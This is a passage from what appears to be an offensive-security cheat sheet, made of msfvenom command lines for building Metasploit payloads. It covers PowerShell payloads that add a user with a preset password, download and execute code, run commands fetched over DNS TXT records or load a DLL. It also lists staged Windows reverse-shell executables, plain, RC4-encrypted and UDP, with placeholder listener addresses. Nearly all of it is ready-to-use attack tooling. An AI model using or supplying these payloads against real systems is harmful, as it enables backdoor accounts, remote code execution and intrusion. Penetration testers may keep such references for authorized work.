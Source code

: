- **Windows**

`$ msfvenom -p cmd/windows/powershell/adduser user=sysadmin pass=Password1234! wmic=[true | false] custom=<group_name> -f raw`

`$ msfvenom -p cmd/windows/powershell/dns_txt_query_exec -f raw`

##### 2.4.3.3 - Download and Execute

- **Windows**

`$ msfvenom -p cmd/windows/powershell/download_exec`

##### 2.4.3.4 - DNS TXT Query Exec

- **Windows**

`$ msfvenom -p cmd/windows/powershell/dns_txt_query_exec dnszone=<domain.com>`

##### 2.4.3.5 - Execute

- **Windows**

`$ msfvenom -p cmd/windows/powershell/exec cmd=<commands>`

`$ msfvenom -p cmd/windows/powershell/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/x64/exec cmd=<commands>`

`$ msfvenom -p cmd/windows/powershell/x64/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/x64/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>`

##### 2.4.3.6 - Text-To-Speech

- **Windows**

`$ msfvenom -p cmd/windows/powershell/speak_pwned`

### 2.5 - Regular Payloads

#### 2.5.1 - Reverse Shells

##### 2.5.1.1 - Staged Windows Reverse Shells

- **x86 (32-bit) Payloads**

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x86.exe`

`$ msfvenom -p windows/shell/reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-enc-x86.exe`

`$ msfvenom -p windows/shell/reverse_udp lhost=<IP> lport=<PORT> -f exe -o shell-x86.exe`

- **x86_64 (64-bit) Payloads**

